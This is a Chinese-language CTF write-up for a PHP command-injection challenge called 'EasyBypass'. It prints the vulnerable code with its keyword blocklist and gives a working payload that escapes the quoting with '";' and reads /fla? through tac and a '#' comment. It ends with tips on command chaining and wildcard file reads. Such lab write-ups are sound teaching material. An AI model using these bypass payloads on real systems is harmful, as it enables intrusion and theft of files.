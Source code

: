 # EasyBypass

## EasyBypass

## 考点

* 命令执行拼接与绕过

## wp

```php
<?php

highlight_file(__FILE__);

$comm1 = $_GET['comm1'];
$comm2 = $_GET['comm2'];

if(preg_match("/\'|\`|\\|\*|\n|\t|\xA0|\r|\{|\}|\(|\)|<|\&[^\d]|@|\||tail|bin|less|more|string|nl|pwd|cat|sh|flag|find|ls|grep|echo|w/is", $comm1))
    $comm1 = "";
if(preg_match("/\'|\"|;|,|\`|\*|\\|\n|\t|\r|\xA0|\{|\}|\(|\)|<|\&[^\d]|@|\||ls|\||tail|more|cat|string|bin|less||tac|sh|flag|find|grep|echo|w/is", $comm2))
    $comm2 = "";

$flag = "#flag in /flag";

$comm1 = '"' . $comm1 . '"';
$comm2 = '"' . $comm2 . '"';

$cmd = "file $comm1 $comm2";
system($cmd);
?>
```

要传入两个参数comm1和comm2，并且对它们两个有不同的限制，对比一下限制有何不同

两者都有的

```
' ` * \ \n \t \xA0 \r { } ( ) < &[^d] @ | tail bin less more string cat sh flag find ls grep echo w
```

comm1还不能有`nl pwd` ，comm2还不能有`" ; , tac` 。这也就意味着在comm1中可以使用`;` 进行命令分割，并且使用`"` 闭合语句，使用`#` 注释多余的语句

payload: `comm1=index.php";tac index.php;%23`

```
index.php";tac index.php;%23
index.php";tac /fla?;%23
```

## 小结

1. Linux命令拼接，`||` 只执行第一个，`&&` 先执行第一个再执行第二个，`|` 只执行第二个，`&` 先执行第一个再执行第二个
2. Linux命令`#` 用于单行注释
3. 读文件时善用通配符`.?*`
4. 读不了/etc/passwd就读index.php或者/etc/hosts
5. 在命令拼接时要考虑使用`;` 分割
